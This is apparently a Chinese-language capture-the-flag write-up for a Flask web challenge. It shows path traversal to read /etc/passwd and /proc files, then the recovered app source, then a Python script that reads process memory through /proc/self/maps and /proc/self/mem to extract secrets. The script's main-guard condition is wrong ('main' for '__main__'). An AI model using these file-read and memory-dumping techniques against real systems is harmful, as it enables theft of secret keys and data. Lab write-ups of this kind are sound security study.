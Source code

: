 # CAT

![image-20240719184638711](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240719184638711.png)

点开就是哈基米，一堆哈基米，随便点点发现了可能有文件包含

先filter看看文件，没法运行，报没这个文件

![image-20240717012543453](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240717012543453.png)

看来这个file是什么都没过滤，看看../../../etc/passwd能不能访问

![image-20240717013101585](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240717013101585.png)

可以访问

这里陷入了疑问了，flag在哪里？是继续枚举文件吗？

使用nmap或者抓包看到服务器是python，那么我们可以根据Linux的一个特征，这个文件就是proc文件

[Proc 目录在 CTF 中的利用-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/241148)

[/proc详解 - 苦涩的茶 - 博客园 (cnblogs.com)](https://www.cnblogs.com/liushui-sky/p/9354536.html)

注意在最开始的构造时候我犯了一个错误，那就是/proc/self/cmdline和/proc/cmdline的区别。对于proc/cmdline，是显示的系统的命令，比如`cat /proc/cmdline ` 查看到的就只是系统所运行的命令，而`self`这个文件就代表的当前用户的进程，他可以有效的查看。



进行/proc/self/cmdline文件的枚举，查看到app.py 进程的存在，通过app.py又查看到了cat.py的存在

![image-20240719224617367](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240719224617367.png)

app.py文件：

```python
import os  # 导入操作系统模块
import uuid  # 导入UUID模块
from flask import Flask, request, session, render_template, Markup  # 导入Flask框架的相关模块
from cat import cat  # 从cat模块导入cat函数

flag = ""  # 初始化flag变量为空字符串
app = Flask(  # 创建Flask应用实例
    __name__,  # 应用名称
    static_url_path='/',  # 静态文件URL路径
    static_folder='static'  # 静态文件目录
)
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"  # 设置Flask应用的SECRET_KEY

# 如果存在名为"/flag"的文件，读取其内容并删除该文件
if os.path.isfile("/flag"):
    flag = cat("/flag")
    os.remove("/flag")

@app.route('/', methods=['GET'])  # 定义根路由，处理GET请求
def index():
    detailtxt = os.listdir('./details/')  # 获取details目录下的文件列表
    cats_list = []  # 初始化一个空列表，用于存储文件名（不包含扩展名）
    for i in detailtxt:
        cats_list.append(i[:i.index('.')])  # 将文件名（不包含扩展名）添加到列表中
    return render_template("index.html", cats_list=cats_list, cat=cat)  # 渲染index.html模板，传递cats_list和cat参数

@app.route('/info', methods=["GET", "POST"])  # 定义info路由，处理GET和POST请求
def info():
    filename = "./details/" + request.args.get('file', "")  # 获取请求参数file的值，并拼接成文件路径
    start = request.args.get('start', "0")  # 获取请求参数start的值，默认为0
    end = request.args.get('end', "0")  # 获取请求参数end的值，默认为0
    name = request.args.get('file', "")[:request.args.get('file', "").index('.')]  # 获取文件名（不包含扩展名）
    return render_template("detail.html", catname=name, info=cat(filename, start, end))  # 渲染detail.html模板，传递catname和info参数

@app.route('/admin', methods=["GET"])  # 定义admin路由，处理GET请求
def admin_can_list_root():
    if session.get('admin') == 1:  # 检查session中是否存在admin键且值为1
        return flag  # 返回flag
    else:
        session['admin'] = 0  # 如果不存在，将admin键值设为0
        return "NoNoNo"  # 返回"NoNoNo"

if __name__ == '__main__':  # 如果该脚本作为主程序运行
    app.run(host='0.0.0.0', debug=False, port=5637)  # 启动Flask应用，监听所有IP地址的5637端口

```

cat.py

```python
import os, sys, getopt  # 导入操作系统、系统和命令行选项解析模块

def cat(filename, start=0, end=0) -> bytes:  # 定义cat函数，用于读取文件内容
    data = b''  # 初始化数据为空字节串
    try:
        start = int(start)  # 尝试将start参数转换为整数
        end = int(end)  # 尝试将end参数转换为整数
    except:
        start = 0  # 如果转换失败，将start设为0
        end = 0  # 将end设为0

    if filename != "" and os.access(filename, os.R_OK):  # 如果文件存在且可读
        f = open(filename, "rb")  # 打开文件以二进制模式读取
        if start >= 0:  # 如果start参数大于等于0
            f.seek(start)  # 定位到start位置
            if end >= start and end != 0:  # 如果end参数大于等于start且不等于0
                data = f.read(end - start)  # 读取从start到end之间的数据
            else:
                data = f.read()  # 读取整个文件
        else:
            data = f.read()  # 读取整个文件
        f.close()  # 关闭文件
    else:
        data = ("File `%s` not exist or can not be read" % filename).encode()  # 如果文件不存在或不可读，返回错误信息

    return data  # 返回读取的数据

if __name__ == '__main__':  # 如果该脚本作为主程序运行
    opts, args = getopt.getopt(sys.argv[1:], '-h-f:-s:-e:', ['help', 'file=', 'start=', 'end='])  # 解析命令行参数
    fileName = ""  # 初始化文件名为空字符串
    start = 0  # 初始化start为0
    end = 0  # 初始化end为0

    for opt_name, opt_value in opts:  # 遍历解析后的参数
        if opt_name == '-h' or opt_name == '--help':  # 如果参数为-h或--help
            print("[*] Help")  # 打印帮助信息
            print("-f --file File name")  # 打印文件名参数说明
            print("-s --start Start position")  # 打印起始位置参数说明
            print("-e --end End position")  # 打印结束位置参数说明
            print("[*] Example of reading /etc/passwd")  # 打印读取/etc/passwd的示例
            print("python3 cat.py -f /etc/passwd")  # 打印示例命令
            print("python3 cat.py --file /etc/passwd")  # 打印示例命令
            print("python3 cat.py -f /etc/passwd -s 1")  # 打印示例命令
            print("python3 cat.py -f /etc/passwd -e 5")  # 打印示例命令
            print("python3 cat.py -f /etc/passwd -s 1 -e 5")  # 打印示例命令
            exit()  # 退出程序

        elif opt_name == '-f' or opt_name == '--file':  # 如果参数为-f或--file
            fileName = opt_value  # 设置文件名为opt_value

        elif opt_name == '-s' or opt_name == '--start':  # 如果参数为-s或--start
            start = opt_value  # 设置start为opt_value

        elif opt_name == '-e' or opt_name == '--end':  # 如果参数为-e或--end
            end = opt_value  # 设置end为opt_value

    if fileName != "":  # 如果文件名不为空
        print(cat(fileName, start, end))  # 调用cat函数并打印结果
    else:
        print("No file to read")  # 如果文件名为空，打印提示信息

```



可以看到显然的在admin_can_list_root中的利用，伪造admin的session，那么如何伪造呢？

可以查询到session伪造的必要条件是获取SECRET_KEY。Python 对象通常存储在堆上，而 Flask 应用程序对象 `app` 是一个 Python 对象。`SECRET_KEY` 存储在 `app.config['SECRET_KEY']` 中，这意味着它在应用程序的配置字典中。

然后问题出自在，/proc/self/mem 是一个高权限且有不可读部分的文件，需要通过/proc/self/maps这个内存映射来构造出访问mem中可访问的部分来获取secret_key，下面是对于maps的构造playload以此得到mem中的key,参考了wp中的函数（比我写的好得多）

其核心内容就是得到maps中的可读可写的进程地址，以此为头尾进行构造url访问mem，

```python
import requests  # 导入requests模块，用于发送HTTP请求
import re  # 导入re模块，用于正则表达式操作

baseUrl = "http://61.147.171.105:63964/info?file=../../"  # 定义基础URL

if __name__ == "main":  # 如果该脚本作为主程序运行
    url = baseUrl + "/proc/self/maps"  # 构造URL，用于获取进程的内存映射信息
    memInfoList = requests.get(url).text.split("\n")  # 发送GET请求，获取内存映射信息，并按行分割
    mem = ""  # 初始化内存内容为空字符串
    for i in memInfoList:  # 遍历内存映射信息
        memAddress = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)  # 使用正则表达式匹配内存地址
        if memAddress:  # 如果匹配成功
            start = int(memAddress.group(1), 16)  # 将起始地址转换为整数
            end = int(memAddress.group(2), 16)  # 将结束地址转换为整数
            infoUrl = baseUrl + "/proc/self/mem&start=" + str(start) + "&end=" + str(end)  # 构造URL，用于获取指定范围内的内存内容
            mem = requests.get(infoUrl).text  # 发送GET请求，获取内存内容
            if re.findall(r"{[\w]+}", mem):  # 如果内存内容中包含花括号包围的单词
                print(re.findall(r"\w+{[\w]+}", mem))  # 使用正则表达式匹配并打印花括号包围的单词

```

![_cgi-bin_mmwebwx-bin_webwxgetmsgimg__&MsgID=256753166553209033&skey=@crypt_5a33b4d7_54b65425d36edea7e77341fc20c58a51&mmweb_appid=wx_webfilehelper](W:\download\_cgi-bin_mmwebwx-bin_webwxgetmsgimg__&MsgID=256753166553209033&skey=@crypt_5a33b4d7_54b65425d36edea7e77341fc20c58a51&mmweb_appid=wx_webfilehelper.jpg)

去掉xff（16进制表示）就可以得到flag